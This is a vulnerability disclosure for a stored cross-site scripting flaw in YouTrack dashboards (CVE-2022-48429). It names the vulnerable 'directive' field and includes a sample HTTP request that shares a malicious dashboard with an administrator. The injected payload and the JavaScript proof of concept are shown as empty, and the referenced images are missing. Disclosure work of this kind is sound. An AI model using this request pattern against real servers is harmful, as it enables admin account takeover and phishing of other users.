

# CVE-2022-48429 - YouTrack Stored XSS

The reported description of the [CVE on the NVD database](https://nvd.nist.gov/vuln/detail/CVE-2022-48429) lacks accuracy.
This is a more accurated description:

Youtrack (**version <= 2022.3.65373**) has a **stored** Cross-Site Scripting (XSS) in dashboards. A malicious low-privileged user can create and share a malformed dashboard sending it to other users (e.g. admins). This can lead to an admin takeover.

Original author: echo-devim

# Detailed Description & Proof of Concept (PoC)
While researching security issues in Youtrack version 2022.3.65373 I found an XSS on dashboards.

Non-privileged user can create a new dashboard with malicious widget containing injected Javascript. The dashboard can be shared to other users, like administrators, sending them the malicious code.

This XSS can target only the specified users and it's really easy to trick the victim to open the malicious dashboard. Infact, the new dashboard will be notified on the homepage of the victim. I noticed that the vulnerability is present since version 2021.4.38425, but it could be older.

The vulnerable param is "directive" when the user adds a new widget.

Example of malicious request to inject the XSS:

```
POST /hub/api/rest/dashboards/39ecb0a3-4bb5-45de-9616-9945fd284886 HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (X11; Windows x86_64; rv:105.0) Gecko/20100101 Firefox/105.0
Content-Type: application/json;charset=utf-8
Content-Length: 1214

{"type":"DashboardJSON","id":"39ecb0a3-4bb5-45de-9616-9945fd284886","name":"testxss","owner":{"type":"user","id":"58a24bf5-53ad-4966-9b5d-63cb8dbfef0a","login":"test"},"data":{"widgets":[{"id":"youtrack-activities-widget","directive":"","grid":{"width":2,"height":2,"y":0,"x":0},"config":{"created":"2023-03-17T10:04:50.590Z","customWidgetConfig":{"filter":{"title":null,"query":"by: me","author":null,"categoriesIds":["IssueCreatedCategory","ProjectCategory","SummaryCategory","DescriptionCategory","CustomFieldCategory","AttachmentsCategory","LinksCategory","CommentsCategory"],"youTrack":{"id":"731f4f21-b0f9-42bd-9509-127b2d0585e1","homeUrl":"/"},"refreshPeriod":240}}}}]},"permission":"OWNER","access":"OWNER","favorite":true,"ordinal":0,"permissions":[{"type":"UserDashboardPermissionJSON","id":"42e794d7-0009-4b00-83f4-45991a0392f0","permission":"VIEW","user":{"type":"user","id":"fcbf85ca-4ea9-4b2e-b750-59b08df9c24a"},"personality":{"type":"user","id":"fcbf85ca-4ea9-4b2e-b750-59b08df9c24a","name":"admin","login":"admin","profile":{"avatar":{"type":"defaultavatar","url":"http://localhost:8081/hub/api/rest/avatar/fcbf85ca-4ea9-4b2e-b750-59b08df9c24a"}}}}]}
```

Then, refreshing the page we'll have the XSS:




This XSS can allow a low privileged user to perform phishing through fake login forms, redirect the user's browser or even perform admin operations.

Even worse if the platform has the user registration enabled, this can allow an external attacker to register a new user and perform the attack.


As a PoC I used a low privileged test user to change the full name of the administrator account.

Code of the PoC:

```javascript

```

This animated gif show the effects. The left window is the page related to the non-privileged user and the right windows is the admin.


